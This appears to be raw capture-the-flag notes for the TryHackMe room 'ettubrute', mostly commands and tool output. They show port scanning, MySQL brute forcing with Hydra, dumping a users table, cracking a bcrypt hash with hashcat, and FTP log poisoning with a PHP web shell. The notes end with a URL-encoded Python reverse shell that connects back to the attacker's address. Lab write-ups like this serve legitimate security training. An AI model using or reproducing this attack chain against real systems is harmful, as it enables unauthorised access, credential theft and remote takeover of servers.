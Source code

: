 <code>
https://tryhackme.com/room/ettubrute

## Service enumetration

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 18:5a:d4:0f:2c:ae:36:9d:35:9c:83:af:da:85:a0:75 (RSA)
|   256 8b:72:5d:b3:75:27:26:6d:3f:a3:41:23:27:1e:cb:4e (ECDSA)
|_  256 6f:58:b9:06:ee:97:de:5e:64:76:55:00:4d:be:47:e7 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.20.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-19T04:00:09
|_Not valid after:  2031-10-17T04:00:09
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.20.04.1
|   Thread ID: 51
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolNew, Support41Auth, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, LongPassword, SupportsCompression, FoundRows, ConnectWithDatabase, SupportsTransactions, IgnoreSigpipes, ODBCClient, SupportsLoadDataLocal, LongColumnFlag, IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 4~L\x02ed`RsB\x08q1\x01E!L1~.
|_  Auth Plugin Name: caching_sha2_password
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

## mysql user Enumeration
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-16 11:50 CEST
Nmap scan report for 10.10.7.238
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.20.04.1
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-empty-password: ERROR: Script execution failed (use -d to debug)
| mysql-brute: 
|   Accounts: No valid accounts found
|   Statistics: Performed 0 guesses in 1 seconds, average tps: 0.0
|_  ERROR: The service seems to have failed or is heavily firewalled...
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.20.04.1
|   Thread ID: 116
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, SwitchToSSLAfterHandshake, SupportsCompression, Speaks41ProtocolNew, SupportsTransactions, IgnoreSigpipes, ConnectWithDatabase, InteractiveClient, LongPassword, SupportsLoadDataLocal, FoundRows, DontAllowDatabaseTableColumn, LongColumnFlag, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x15MGc\x1AmwX\x13bw\x1BE\x0BhH\x1Buf\x19
|_  Auth Plugin Name: caching_sha2_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.54 seconds


## password brute force sql
hydra -l root -P ../../www/wordlists/rockyou.txt 10.10.81.109 mysql
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-16 15:25:58
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.10.81.109:3306/
[3306][mysql] host: 10.10.81.109   login: root   password: rockyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-16 15:26:00



## mysql Enumeration


MySQL [mysql]> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [website]> select * from user;
ERROR 1146 (42S02): Table 'website.user' doesn't exist
MySQL [website]> select * from userss;
ERROR 1146 (42S02): Table 'website.userss' doesn't exist
MySQL [website]> select * from userss
    -> select * from userss;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'select * from userss' at line 2
MySQL [website]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | Adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we | 2021-10-20 02:43:42 |
+----+----------+--------------------------------------------------------------+---------------------+
1 row in set (0.033 sec)

MySQL [website]> 


──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ cat hash.txt 
$A$005$n:{T^3%/{5=+Z0Y1zOxlUB7mIrlVbAxA5t4ARcqMaY6i4k1AhaU2/W1

## Adrian Hash creaking                                                                                                                                        

┌──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ hashcat hash.txt -m 3200 ../../../Documents/www/wordlists/rockyou.txt
hashcat (v6.2.6) starting
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Dictionary cache built:
* Filename..: ../../../Documents/www/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

**$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we:tigger**
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSY...SKn4we
Time.Started.....: Tue May 20 12:35:32 2025 (1 sec)
Time.Estimated...: Tue May 20 12:35:33 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../../../Documents/www/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       40 H/s (3.68ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 32/14344385 (0.00%)
Rejected.........: 0/32 (0.00%)
Restore.Point....: 16/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 654321 -> butterfly

Started: Tue May 20 12:34:47 2025
Stopped: Tue May 20 12:35:34 2025

## credentials Adrian:tigger - only for web service not for ftp/ssh

## gobuster with credentials - nothing

┌──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.210.144 -x .php, .txt, .html -c PHPSESSID=6mf4a6dknljbg7it5dvurulukb

/.                    (Status: 302) [Size: 0] [--> welcome.php]
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 302) [Size: 0] [--> welcome.php]
/welcome.php          (Status: 200) [Size: 631]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1080]
/server-status        (Status: 403) [Size: 278]
Progress: 661680 / 661683 (100.00%)

## FTP log poisoning

ftp 10.10.122.127
Connected to 10.10.122.127.
220 (vsFTPd 3.0.5)
Name (10.10.122.127:kali): ``` '<?php system($_GET['c']); ?>' ```
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

http://10.10.122.127/welcome.php?c=id
Thu May 22 09:06:33 2025 [pid 1973] ['uid=33(www-data) gid=33(www-data) groups=33(www-data) '] FAIL LOGIN: Client "::ffff:10.8.28.108"


## Get reverse shell

http://10.10.122.127/welcome.php?c=export%20RHOST=%2210.8.28.108%22;export%20RPORT=4444;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27

